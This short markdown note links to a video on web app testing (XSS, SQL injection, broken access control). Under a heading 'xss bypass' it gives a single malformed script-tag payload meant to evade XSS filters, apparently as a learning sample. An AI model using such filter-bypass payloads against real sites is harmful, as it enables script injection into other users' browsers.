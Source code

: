 [Web App Testing: Episode 3 - XSS, SQL Injection, and Broken Access Control](https://www.youtube.com/watch?v=azYwfI26oXo&list=PLLKT__MCUeixCoi2jtP2Jj8nZzM4MOzBL&index=3)

## xss bypass
```js
<<a|ascript>alert('xss')</script>
```

